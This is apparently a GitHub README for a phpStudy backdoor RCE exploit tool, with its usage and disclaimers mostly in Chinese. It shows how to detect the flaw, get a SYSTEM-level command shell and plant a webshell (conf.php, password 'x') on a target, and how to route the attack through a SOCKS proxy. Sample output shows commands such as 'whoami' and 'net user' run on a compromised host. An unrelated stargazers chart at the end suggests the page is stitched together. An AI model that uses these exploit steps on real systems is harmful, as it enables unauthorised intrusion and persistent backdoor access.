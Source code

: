 # phpstudy-backdoor-rce
phpstudy_rce exp &amp; poc
> phpstudy backdoor rce exp &amp; poc

- usage:
```python
python phpstudy_rce.py                                   
usage: python phpstudy_rce.py -u [url] --shell

PHPstudy RCE POC & EXP

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     指定目标url地址
  --shell               利用漏洞并获取命令行
  --webshell            利用漏洞并上传webshell
  -p PROXY, --proxy PROXY
                        设置代理，如socks5://127.0.0.1:7890

```

- example:
```python
# poc
python phpstudy_rce.py -u http://xxxx/           
[✅]存在漏洞

# exp - 获取shell
python phpstudy_rce.py -u http://xxxx/ --shell       
[✅]存在漏洞
cmd>>> whoami
nt authority\system
cmd>>> net user
User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    
The command completed with one or more errors.

cmd>>> exit

# exp - 写入webshell
python phpstudy_rce.py -u http://xxxx/ --webshell
[✅]存在漏洞
[✅]获取到网站路径 C:/phpStudy/WWW/
[✅]写入webshell成功 http://xxxx/conf.php 连接密码 x

# proxy
python phpstudy_rce.py -u http://xxxx/ -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --shell -p socks5://127.0.0.1:7890
python phpstudy_rce.py -u http://xxxx/ --webshell -p socks5://127.0.0.1:7890
```

- 参考链接
  - https://github.com/theLSA/phpstudy-backdoor-rce
  - https://blog.csdn.net/qq_45521281/article/details/105926151
  
- 使用须知
  - 本工具仅面向合法授权的企业安全建设行为，在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。
  - 如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果。
 

## Stargazers over time

[![Stargazers over time](https://starchart.cc/whitzard-ai/jade-db.svg)](https://starchart.cc/whitzard-ai/jade-db)

